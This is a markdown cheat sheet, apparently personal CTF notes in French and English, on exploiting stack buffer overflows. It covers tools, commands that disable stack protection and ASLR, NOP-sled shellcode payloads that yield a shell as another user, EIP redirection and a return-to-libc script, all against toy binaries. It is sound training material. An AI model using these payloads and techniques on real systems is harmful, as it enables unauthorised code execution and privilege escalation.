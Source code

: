 # Buffer overflow

</br>

## Tools

* Plugin pour gdb : https://github.com/longld/peda
* string xxx
* test eax, eax : caracteristique des comparaisons de strings
* objdump -D buffer_01
* strace
* pmap `pidof xxx`
* PwnTools 
* /usr/share/metasploit-framework/tools/exploit/pattern create.rb -l 2000
* /usr/share/metasploit-framework/tools/exploit/pattern offset.rb -q 0x41424344

</br>

### Payloads

#### dash
````
"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"
````

</br>

### Disable securities

gcc -fno-stack-protector -z execstack 
Disable ASLR for one binary : setarch `uname -m` -R /root/mybinary
Disable ASLR for the session : echo 0 > /proc/sys/kernel/randomize_va_space
0: off
1: on
2: on (default value)
Disable ASLR:
sysctl -w kernel.randomize_va_space=0 in /etc/sysctl.conf

gcc -m32

</br>

### gdb

#### Find system address

* source /usr/share/gdb-peda/peda.py
* r
* print system
* find "/bin/sh" all


</br>

## Simple buffer overflow : overwrite a stack variable

````
$ cat buffer_01.c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
  char  tst=0;
  char name[10];

  strcpy(name, argv[1]);
  printf("Hello %s\n", name);
  if (tst=='Z') printf("Pwnd");
  return 0;
}
$ gcc -fno-stack-protector buffer_01.c -o buffer_01
$ buffer_01 ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
````

</br>

## Internal function call

On regarde les fonctions et leurs adresses
````
$ objdump -D ./strcpy
08048533 <get_flag_1>:
 8048533:	55                   	push   %ebp
 8048534:	89 e5                	mov    %esp,%ebp
 8048536:	83 ec 08             	sub    $0x8,%esp
 8048539:	83 ec 0c             	sub    $0xc,%esp
 804853c:	68 20 86 04 08       	push   $0x8048620
 8048541:	e8 1a fe ff ff       	call   8048360 <system@plt>
 8048546:	83 c4 10             	add    $0x10,%esp
 8048549:	c9                   	leave
 804854a:	c3                   	ret

0804854b <get_flag_2>:
 804854b:	55                   	push   %ebp
 804854c:	89 e5                	mov    %esp,%ebp
 804854e:	83 ec 08             	sub    $0x8,%e
````
get_flag_2 est en 0804854b, on va pousser 0804854b en bout de notre fuzzer, et le faire glisser jusqu'à ce qu'il tombe sur EIP et appelle la fonction get_flag_2
````
$ for i in `seq 1 100`;do echo $i; ./strcpy $(python -c "print 'a'*$i+'\x4b\x85\x04\x08';"); done
````

</br>

## Execute stack payload : before ESP

Context:
- Executable stack
- No canary
- No Address Space Layout Randomization
=> Adresses are hard coded in elf

gcc -z execstack 


Detection à la louche de l'overflow en shell
````
$ for i in `seq 500 510`;do echo $i; ./vuln_basic $(python -c "print 'a'*$i;"); done
````

Detection fine de la position dans gdb
````
gdb
disassemble main
break *0x0804844e
gdb-peda$ run $(python -c "print 'a'*512+'bcdefghijklmnopqrst';")
Stopped reason: SIGSEGV
0x65646362 in ?? ()
=> bcde
gdb-peda$ x/520x $esp
````

On dispose de 512 octets. On va utiliser (512-48) NOP et une payload de 48 octets suivi d'une adresse 1234.
````
 run $(python -c 'print "\x90"*(512-48)+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x01\x02\x03\x04";')
 ````
On vérifie que EIP vaut bien 4x3x2x1
On cherche avec x/520x $esp une adresse dans les nop
"bffffd50"
On l'inverse
"\x50\xfd\xff\xbf" 

On quitte gdb et on fait en shell
````
./vuln_basic  $(python -c 'print "\x90"*(512-48)+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x50\xfd\xff\xbf";')
$ id
uid=1001(user) gid=1001(user) euid=1000(chall) groups=1001(user)
````

</br>

## Execute stack payload : after ESP


On se le refait mais avec la payload après EIP
````
./vuln_basic  $(python -c 'print "\x90"*(512)+"\xc8\xfd\xff\xbf"+"\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81";')
````

</br>

## Stack/Heap non executable -> return to LibC

```
#!/usr/bin/python
import os
import struct

libc_system = struct.pack('<I', 0xaeaeaeae)
libc_binsh  = struct.pack('<I', 0xaeaeaeae)

buffer  = 'A'*64
buffer += libc_system
buffer += 'AAAA'
buffer += libc_binsh

progname ="./buffer_01"
os.environ['VAR']=buffer
os.execve(progname, [progname], os.environ)

````

</br>

## Hide LibC adresse ALSR 32 bits -> bruteforce search 



</br>

## Hide LibC adresse ALSR 64 bits -> information leak (format string vuln)


</br>

## LibC hidden -> Return Oriented Program (ROP)

https://github.com/0vercl0k/rp

</br>

## Randomize location of code -> Blind ROP

[http://www.scs.stanford.edu/brop/]












